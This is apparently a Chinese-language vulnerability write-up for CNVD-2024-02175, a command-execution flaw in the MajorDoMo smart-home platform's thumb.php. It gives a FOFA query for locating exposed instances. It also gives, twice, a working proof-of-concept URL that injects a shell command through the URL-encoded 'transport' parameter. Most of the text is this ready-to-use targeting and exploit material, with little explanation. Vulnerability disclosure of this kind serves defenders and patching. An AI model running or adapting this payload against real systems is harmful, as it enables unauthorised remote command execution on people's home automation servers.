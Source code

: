 # CNVD-2024-02175

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** MajorDoMo-thumb.php存在命令执行漏洞



## **漏洞描述**

MajorDoMo是MajorDoMo社区的一个开源DIY智能家居自动化平台。MajorDoMo 0662e5e之前版本存在安全漏洞，该漏洞源于文件thumb.php存在命令执行漏洞。

## **fofa搜索语句**

```bash
app="MajordomoSL"
```

## **POC**

```bash
/modules/thumb/thumb.php?url=cnRzcDovL2EK&debug=1&transport=%7C%7C+%28echo+%27%5BS%5D%27%3B+id%3B+echo+%27%5BE%5D%27%29%23%3B
```

![Untitled](image/Untitled.png)

## 漏洞利用

```bash
/modules/thumb/thumb.php?url=cnRzcDovL2EK&debug=1&transport=%7C%7C+%28echo+%27%5BS%5D%27%3B+id%3B+echo+%27%5BE%5D%27%29%23%3B
```

![Untitled](image/Untitled%201.png)